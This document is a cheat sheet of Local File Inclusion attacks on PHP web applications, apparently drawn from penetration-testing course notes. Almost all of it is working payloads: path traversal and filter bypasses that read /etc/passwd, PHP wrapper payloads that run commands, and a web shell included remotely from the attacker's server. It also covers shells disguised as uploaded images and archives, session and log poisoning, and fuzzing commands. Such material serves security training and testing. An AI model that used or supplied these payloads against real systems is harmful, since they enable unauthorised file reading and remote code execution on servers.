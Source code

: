 # Local File Inclusion

## Command	Description
### Basic LFI	
- `/index.php?language=/etc/passwd`: Basic LFI
- `/index.php?language=../../../../etc/passwd`: LFI with path traversal
- `/index.php?language=/../../../etc/passwd`: LFI with name prefix
- `/index.php?language=./languages/../../../../etc/passwd`: LFI with approved path

### LFI Bypasses	
- `/index.php?language=....//....//....//....//etc/passwd`: Bypass basic path traversal filter
- `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`: Bypass filters with URL encoding
- `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`: Bypass appended extension with path truncation (obsolete)
- `/index.php?language=../../../../etc/passwd%00`: Bypass appended extension with null byte (obsolete)
- `/index.php?language=php://filter/read=convert.base64-encode/resource=config`: Read PHP with base64 filter

### Remote Code Execution
- **PHP Wrappers**
  - `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`: RCE with data wrapper
  - `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`: RCE with input wrapper
  - `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`: RCE with expect wrapper
- **RFI**
  - `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`: Host web shell
  - `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`: Include remote PHP web shell
- **LFI + Upload**
  - `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`: Create malicious image
  - `/index.php?language=./profile_images/shell.gif&cmd=id`: RCE with malicious uploaded image
  - `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`: Create malicious zip archive 'as jpg'
  - `/index.php?language=zip://shell.zip%23shell.php&cmd=id`: RCE with malicious uploaded zip
  - `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`: Create malicious phar 'as jpg'
  - `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`: RCE with malicious uploaded phar
- **Log Poisoning**
  - `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`: Read PHP session parameters
  - `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`: Poison PHP session with web shell
  - `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`: RCE through poisoned PHP session
  - `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`: Poison server log
  - `/index.php?language=/var/log/apache2/access.log&cmd=id`: RCE through poisoned PHP session

## Misc

### Command	Description
- `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`: Fuzz page parameters
- `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`: Fuzz LFI payloads
- `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`: Fuzz webroot path
- `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`: Fuzz server configurations

[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

[Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)


## File Inclusion Functions

| Function               | Read Content | Execute | Remote URL |
|------------------------|--------------|---------|------------|
| **PHP**                |              |         |            |
| include()/include_once() | ✅          | ✅      | ✅         |
| require()/require_once() | ✅          | ✅      | ❌         |
| file_get_contents()    | ✅          | ❌      | ✅         |
| fopen()/file()         | ✅          | ❌      | ❌         |
| **NodeJS**             |              |         |            |
| fs.readFile()          | ✅          | ❌      | ❌         |
| fs.sendFile()          | ✅          | ❌      | ❌         |
| res.render()           | ✅          | ✅      | ❌         |
| **Java**               |              |         |            |
| include                | ✅          | ❌      | ❌         |
| import                 | ✅          | ✅      | ✅         |
| **.NET**               |              |         |            |
| @Html.Partial()        | ✅          | ❌      | ❌         |
| @Html.RemotePartial()  | ✅          | ❌      | ✅         |
| Response.WriteFile()   | ✅          | ❌      | ❌         |
